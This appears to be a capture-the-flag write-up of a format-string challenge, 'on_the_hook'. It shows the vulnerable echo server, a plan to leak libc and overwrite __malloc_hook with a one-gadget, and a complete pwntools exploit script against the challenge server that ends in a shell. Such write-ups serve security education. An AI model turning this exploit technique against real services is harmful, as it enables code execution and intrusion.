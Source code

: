 ```yaml
--- 
layout: post 
title:  "[K3RN3LCTF] on_the_hook"
date: "2021-11-15" 
categories: [Pwn, Fsb]
author: eurus 
---
```



This is the output of the checksec over the ELF of this challenge.

```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

We can see from the main function that the program is a simple echo server.
But it use ```printf(s)``` and since the user can control the format string
of the printf we have here a **format string vulnerability**.

```c
int main(){

  char s[64];

  init();
  puts("echo:");
  for ( int i = 1; i <= 5; ++i ){
    fgets(s, 64, stdin);
    printf(s);
  }
  exit(0);
}
```

So we have 5 possible read or write operation.

This is the plan:
1. leak a libc address (Here i have leaked the return address of the main)
2. use the address leaked to find the address of the ```__malloc_hook```
3. use the format string vulnerability to write into the ```__malloc_hook``` the address of a one gadget
4. force the printf to allocate memory forcing to print a long string

we dont need to leak the version of the glibc version since the author of the challenge gave us the libc used on the server.


```
.text:0001862B                 push    [esp+64h+ubp_av] 
.text:0001862F                 push    [esp+68h+argc]  
.text:00018633                 call    [esp+6Ch+main]  ; call the main function
.text:00018637                 add     esp, 10h        ; return address of the main 0x18637 
.text:0001863A
.text:0001863A loc_1863A:                              
.text:0001863A                 sub     esp, 0Ch
.text:0001863D                 push    eax             
.text:0001863E                 call    exit
```



For semplicity I have used the fmtstr_payload function of the pwntools library.

From the pwntools documentation:
```
    pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte') → str
```

    Makes payload with given parameter. It can generate payload for 32 or 64 bits architectures. The size of the addr is taken from context.bits
```   
    offset (int) – the first formatter’s offset you control
    writes (dict) – dict with addr, value {addr: value, addr2: value2}
```


So this is the final exploit.

```python
from pwn import *

context.binary = elf = ELF('./on_the_hook')
libc = ELF('./libc.so.6')

#p = elf.process()
p = remote('ctf.k3rn3l4rmy.com', 2201)
p.recvline()

def leakat(i, p):
    p.sendline(f'%{i}$p')
    rec = p.recvline()
    leak = str(rec[:-1])[2:-1]
    log.info(f'@ {i}: {leak}')
    return leak

ret_libc = leakat(27, p)

print(ret_libc)
libc.address = int(ret_libc,16) - 0x18637
log.success(f'Libc base @ {hex(libc.address)}')
log.info(f'malloc hook @ {hex(libc.sym.__malloc_hook)}')

one1 = libc.address + 0x3ac5c
one2 = libc.address + 0x3ac5e
one3 = libc.address + 0x3ac62
one4 = libc.address + 0x3ac69
one5 = libc.address + 0x5fbc5
one6 = libc.address + 0x5fbc6


p.sendline(fmtstr_payload(7,{libc.sym.__malloc_hook:one3}))
p.sendline('%99999c')
p.interactive()
```


